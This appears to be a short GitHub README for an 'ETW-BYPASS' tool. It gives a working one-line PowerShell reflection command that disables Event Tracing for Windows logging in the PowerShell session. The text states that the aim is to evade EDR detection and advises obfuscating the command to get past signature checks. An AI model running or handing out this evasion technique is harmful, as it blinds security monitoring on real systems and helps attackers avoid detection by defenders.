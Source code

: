 # ETW-BYPASS


This script perform ETW-Bypass to avoid EDR detection

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

- This is caught by most of EDR's with it's signature so perform some obfuscation to get around it
